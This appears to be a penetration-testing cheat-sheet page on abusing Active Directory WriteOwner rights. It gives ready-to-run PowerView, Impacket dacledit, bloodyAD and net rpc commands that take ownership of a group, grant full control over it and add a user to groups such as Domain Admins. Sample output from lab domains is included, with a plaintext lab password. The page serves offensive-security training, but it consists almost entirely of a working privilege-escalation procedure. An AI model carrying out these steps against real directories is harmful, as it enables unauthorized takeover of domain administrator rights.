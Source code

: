 ```yaml
---
title: "WriteOwner/Own"
date: 2024-7-27
tags: ["Writeowner", "Permissions", "Powerview", "Impacket", "AddMember", "Domain Controller", "Active Directory", "Windows", "Dacledit"]
---
```


### Abuse #1 : Change owner of the group

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\maria> . .\PowerView.ps1
```

#### 2. Change owner

```console
Set-DomainObjectOwner -Identity '<GROUP>' -OwnerIdentity '<TARGET_USER>'
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\maria> Set-DomainObjectOwner -Identity 'DOMAIN ADMINS' -OwnerIdentity 'maria'
```

{{< /tabcontent >}}

### Abuse #2 : Add user to the group

{{< tab set2 tab1 active >}}Linux{{< /tab >}}{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{<  tabcontent set2 tab1  >}}

#### 1. Add full control permission to the user over the group

{{< tab set2-1 tab1 active >}}impacket{{< /tab >}}{{< tab set2-1 tab2 >}}bloodyAD{{< /tab >}}
{{< tabcontent set2-1 tab1 >}}

```console
# Install latest impacket (included dacledit.py)
git clone https://github.com/fortra/impacket.git
```

```console
cd impacket
```

```console
pip3 install .
```

<br>

```console
sudo ntpdate -s <DC> && dacledit.py -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal '<USER>' -target '<GROUP>' -inheritance -action write -rights FullControl
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.absolute.htb && dacledit.py -k 'absolute.htb/m.lovegod:AbsoluteLDAP2022!' -dc-ip dc.absolute.htb -principal 'm.lovegod' -target 'NETWORK AUDIT' -inheritance -action write -rights FullControl
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20240924-021507.bak
[*] DACL modified successfully!
```

{{< /tabcontent >}}
{{< tabcontent set2-1 tab2 >}}

```console
# With Kerberos
python3 bloodyAD.py -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' -k --host <DC> add genericAll '<GROUP>' '<USER>'
```

```console {class="sample-code"}
$ python3 bloodyAD.py -d absolute.htb -u 'm.lovegod' -p 'AbsoluteLDAP2022!' -k --host dc.absolute.htb add genericAll 'NETWORK AUDIT' 'm.lovegod' 
[+] m.lovegod has now GenericAll on NETWORK AUDIT
```

{{< /tabcontent >}}

#### 2. Add the user to group

{{< tab set2-2 tab1 active >}}bloodyAD{{< /tab >}}{{< tab set2-2 tab2 >}}rpc{{< /tab >}}
{{< tabcontent set2-2 tab1 >}}

```console
python3 bloodyAD.py -k -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add groupMember '<GROUP>' '<USER>'
```

```console {class="sample-code"}
$ python3 bloodyAD.py -k -d absolute.htb -u 'm.lovegod' -p 'AbsoluteLDAP2022!' --host dc.absolute.htb add groupMember 'NETWORK AUDIT' 'm.lovegod'
[+] m.lovegod added to NETWORK AUDIT
```

{{< /tabcontent >}}
{{< tabcontent set2-2 tab2 >}}

```console
# Request a TGT
sudo ntpdate -s <DC> && impacket-getTGT '<DOMAIN>/<USER>'
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.absolute.htb && impacket-getTGT 'absolute.htb/m.lovegod'                                                                  
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Saving ticket in m.lovegod.ccache
```

```console
export KRB5CCNAME=<USER>.ccache
```

```console {class="sample-code"}
$ export KRB5CCNAME=m.lovegod.ccache
```

```console
sudo ntpdate -s <DC> && net rpc group addmem '<GROUP>' '<USER>' -U '<USER>' --use-kerberos=required -S <DC>
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.absolute.htb && net rpc group addmem 'NETWORK AUDIT' 'm.lovegod' -U 'm.lovegod' --use-kerberos=required -S dc.absolute.htb
Password for [WORKGROUP\m.lovegod]:
```

{{< /tabcontent >}}

#### 3. Check

```console
sudo ntpdate -s <DC> && net rpc group members '<GROUP>' -U '<USER>' --use-kerberos=required -S <DC>
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.absolute.htb && net rpc group members 'NETWORK AUDIT' -U 'm.lovegod' --use-kerberos=required -S dc.absolute.htb
Password for [WORKGROUP\m.lovegod]:
absolute\m.lovegod
absolute\svc_audit
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. Import PowerView.ps1 

```console
. .\PowerView.ps1
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\maria> . .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add user to group

```console
Add-DomainObjectAcl -TargetIdentity '<GROUP>' -PrincipalIdentity '<USER>' -Rights All -DomainController <DC> -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\maria> Add-DomainObjectAcl -TargetIdentity 'DOMAIN ADMINS' -PrincipalIdentity 'maria' -Rights All -DomainController jenkins.object.local
```

```console
Add-DomainGroupMember -Identity '<GROUP>' -Members '<USER>' -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\maria> Add-DomainGroupMember -Identity 'Domain Admins' -Members 'maria'
```

#### 4. Check

```console
Get-DomainGroupMember -Identity '<GROUP>' -Domain <DOMAIN> -DomainController <DC> -Credential $cred | fl MemberName
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\maria> Get-DomainGroupMember -Identity 'DOMAIN ADMINS' -Domain object.local -DomainController jenkins.object.local | fl MemberName

MemberName : maria

MemberName : Administrator
```

```console
# Or
net user <USER>
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\maria> net user maria
User name                    maria
Full Name                    maria garcia
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/21/2021 9:16:33 PM
Password expires             Never
Password changeable          10/22/2021 9:16:33 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   9/23/2024 2:24:00 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Admins        *Domain Users
The command completed successfully.
```

```console
# Exit current sessions or re-login
whoami /groups
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\maria> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                    Type             SID                                           Attributes
============================================= ================ ============================================= ===============================================================
Everyone                                      Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users               Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                 Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access    Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                        Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                          Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users              Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
OBJECT\Domain Admins                          Group            S-1-5-21-4088429403-1159899800-2753317549-512 Mandatory group, Enabled by default, Enabled group
OBJECT\Denied RODC Password Replication Group Alias            S-1-5-21-4088429403-1159899800-2753317549-572 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication              Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level          Label            S-1-16-12288
```

{{< /tabcontent >}}
